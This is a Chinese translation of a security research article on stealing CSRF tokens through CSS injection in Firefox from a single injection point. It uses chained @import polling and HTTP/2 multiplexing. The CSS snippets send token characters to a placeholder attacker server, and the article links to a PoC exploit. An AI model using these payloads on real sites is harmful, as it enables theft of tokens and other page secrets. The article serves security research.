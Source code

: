 > 原文链接: https://www.anquanke.com//post/id/198723 


# 在Firefox浏览器中利用CSS窃取数据


                                阅读量   
                                **825955**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者securitum，文章来源：research.securitum.com
                                <br>原文地址：[https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t01f9530a4b8028e782.png)](https://p0.ssl.qhimg.com/t01f9530a4b8028e782.png)



## 0x00 前言

几个月之前，我在Firefox中找到了一个漏洞（[CVE-2019-17016](https://www.mozilla.org/en-US/security/advisories/mfsa2020-01/#CVE-2019-17016)）。在研究过程中，我发现了在Firefox浏览器中利用CSS的一种数据窃取技术，可以通过单个注入点窃取数据，这里我想与大家一起分享相关研究成果。



## 0x01 背景知识

为了演示方便，这里假设我们想窃取`&lt;input&gt;`元素中的CSRF令牌。

```
&lt;input type="hidden" name="csrftoken" value="SOME_VALUE"&gt;
```

我们无法使用脚本（可能是因为CSP），因此想寻找基于样式的注入方法。传统方法是使用属性选择器，如下所示：

```
input[name='csrftoken'][value^='a'] `{`
  background: url(//ATTACKER-SERVER/leak/a);
`}`

input[name='csrftoken'][value^='b'] `{`
  background: url(//ATTACKER-SERVER/leak/b);
`}`

...

input[name='csrftoken'][value^='z'] `{`
  background: url(//ATTACKER-SERVER/leak/z);
`}`
```

如果应用了CSS规则，那么攻击者就能收到HTTP请求，从而获取到令牌的第1个字符。随后，攻击者需要准备另一个样式表，其中包含已窃取的第1个字符，如下所示：

```
input[name='csrftoken'][value^='aa'] `{`
  background: url(//ATTACKER-SERVER/leak/aa);
`}`

input[name='csrftoken'][value^='ab'] `{`
  background: url(//ATTACKER-SERVER/leak/ab);
`}`

...

input[name='csrftoken'][value^='az'] `{`
  background: url(//ATTACKER-SERVER/leak/az);
`}`
```

通常情况下，攻击者需要重新加载`&lt;iframe&gt;`中已加载的页面，以便提供后续样式表。

在2018年，[Pepe Vila](https://twitter.com/cgvwzq)提出了一个非常不错的想法，可以在Chrome浏览器中滥用[CSS递归import](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231)方式，通过单个注入点完成相同任务。在2019年，Nathanial Lattimer（[技巧](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)，但稍微做了点改动。下面我稍微总结一下Lattimer的方法，这种方法与本文的思想比较接近（但我在此次研究过程中并不了解Lattimer之前的成果，因此可能有人会认为我在重复造轮子）。

简而言之，第一次注入用到了一堆`import`：

```
@import url(//ATTACKER-SERVER/polling?len=0);
@import url(//ATTACKER-SERVER/polling?len=1);
@import url(//ATTACKER-SERVER/polling?len=2);
...
```

核心思想如下：

1、在一开始，只有第1个`[@import](https://github.com/import)`会返回样式表，其他语句处于连接阻塞状态。

2、第1个`[@import](https://github.com/import)`返回样式表，泄露令牌的第1个字符。

3、当泄露的第1个令牌到达`ATTACKER-SERVER`，第2个`import`停止阻塞，返回包含第1个字符的样式表，尝试泄露第2个字符。

4、当第2个泄露字符到达`ATTACKER-SERVER`时，第3个`import`停止阻塞……以此类推。

这种技术之所以行之有效，是因为Chrome会采用异步方式处理`import`，因此当任何`import`停止阻塞时，Chrome会立即解析该语句并应用规则。



## 0x02 Firefox及样式表处理

前面提到的方法并不适用于Firefox，与Chrome浏览器相比，Firefox对样式表的处理方式大不相同。这里我以几个案例来说明其中差异。

首先，Firefox会采用同步方式处理样式表。因此，当样式表中有多个`import`时，只有当所有`import`都处理完毕时，Firefox才会应用CSS规则。考虑如下案例：

```
&lt;style&gt;
@import '/polling/0';
@import '/polling/1';
@import '/polling/2';
&lt;/style&gt;
```

假设第1个`[@import](https://github.com/import)`返回CSS规则，将页面背景设置为蓝色，后续的`import`处于阻塞状态（比如永远不会返回任何内容，会挂起HTTP连接）。在Chrome浏览器中，页面会立即变为蓝色，而在Firefox中并不会有任何反应。

我们可以将所有`import`放在独立的`&lt;style&gt;`元素中，从而解决该问题：

```
&lt;style&gt;@import '/polling/0';&lt;/style&gt;
&lt;style&gt;@import '/polling/1';&lt;/style&gt;
&lt;style&gt;@import '/polling/2';&lt;/style&gt;
```

在上面代码中，Firefox会分别处理所有样式表，因此页面会立刻变蓝色，其他`import`会在后台处理。

但这里还有另一个问题，假设我们想窃取包含10个字符的令牌：

```
&lt;style&gt;@import '/polling/0';&lt;/style&gt;
&lt;style&gt;@import '/polling/1';&lt;/style&gt;
&lt;style&gt;@import '/polling/2';&lt;/style&gt;
...
&lt;style&gt;@import '/polling/10';&lt;/style&gt;
```

Firefox会立即将10个`import`加入队列。在处理完第1个`import`后，Firefox会将带有已知字符的另一个请求加入队列。这里的问题在于，该请求会被加到队列末尾。而在默认情况下，浏览器有个限制条件，到同一个服务器只能有6个并发连接。因此，带有已知字符的请求永远不会到达目标服务器，因为已经有到该服务器的6个阻塞连接，最终出现死锁现象。

## 0x03 HTTP/2

6个连接的限制条件由TCP层决定，因此到单个服务器只能有6个TCP连接同时存在。在这种情况下，我认为HTTP/2可能派上用场。HTTP/2有许多优点，比如我们可以通过单个连接发送多个HTTP请求（也就是所谓的多路传输（[multiplexing](https://stackoverflow.com/questions/36517829/what-does-multiplexing-mean-in-http-2)）），从而大大提升性能。

Firefox对单个HTTP/2连接的并发请求数也有限制，但默认情况下限制数为`100`（具体设置参考`about:config`中的`network.http.spdy.default-concurrent`）。如果我们需要更多并发数，可以使用不同的主机名，强制Firefox创建第2个TCP连接。比如，如果我们创建到`https://localhost:3000`的`100`个请求，也创建到`https://127.0.0.1:3000`的`50`个请求，此时Firefox就会创建2个TCP连接。



## 0x04 利用方式

现在一切准备就绪，我们的主要利用场景如下：

1、利用代码基于HTTP/2。

2、通过`/polling/:session/:index`端点可以返回CSS，泄露第`:index`字符。该请求会处于阻塞状态，直到前一个请求成功泄露第`index-1`个字符。`:session`路径参数用来区分多次攻击行为。

3、通过`/leak/:session/:value`端点来泄露整个令牌。这里`:value`为获取到的完整值，而不单单是最后一个字符。

4、为了强制Firefox向同一个服务器发起2个TCP连接，这里用到了两个端点，分别为`https://localhost:3000`及`https://127.0.0.1:3000`。

5、端点`/generate`用来生成示例代码。

我创建了一个[测试平台](https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/testbed.html)，目标是通过这种方式窃取`csrftoken`，大家可通过[此处](https://htmlpreview.github.io/?https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/testbed.html)直接访问该平台。

[![](https://p1.ssl.qhimg.com/t01c94b940b4ec7ff05.png)](https://p1.ssl.qhimg.com/t01c94b940b4ec7ff05.png)

此外，我还在GitHub上托管了[PoC代码](https://github.com/securitum/research/blob/master/r2020_firefox-css-data-exfil/exploit.js)，攻击过程可参考[此处视频](https://research.securitum.com/wp-content/uploads/sites/2/2020/02/firefox-leak.mp4)。

有趣的是，由于我们使用的是HTTP/2，因此攻击过程非常快速，不到3秒就能获取到整个令牌。



## 0x05 总结

在本文中，我演示了如何利用1个注入点，在不想重载页面的情况下，通过CSS窃取数据。这里主要涉及2个要点：

1、将`[@import](https://github.com/import)`规则拆分成多个样式表，后续`import`不会阻塞浏览器对整个样式表的处理。

2、为了绕过TCP并发连接数限制，我们需要通过HTTP/2发起攻击。
